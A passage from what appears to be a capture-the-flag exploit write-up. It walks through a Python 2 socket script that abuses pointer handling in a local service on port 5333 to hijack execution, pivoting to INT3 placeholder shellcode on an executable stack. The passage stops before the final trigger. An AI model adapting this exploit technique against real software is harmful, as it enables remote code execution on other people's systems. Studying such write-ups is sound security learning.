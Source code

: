 Good, we have control over ```rax```. Now let's use this to dereference the pointer to the first string:

```
s.send('u ' + str(p_tmp) + ' ' + struct.pack('>L', p_shellcode-0x10) + '\n')
```

Which obviously still crashes, because now the binary executes:

```
#0  0x0000000021465443 in ?? ()
```

Which obviously contains no data, nor any code. But let's give it a proper pointer, shall we? And while I'm at it, I'll set the shellcode to ```INT3```. The stack is executable, so this should work!

```
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xCC\xCC\xCC\xCC\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)


# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
```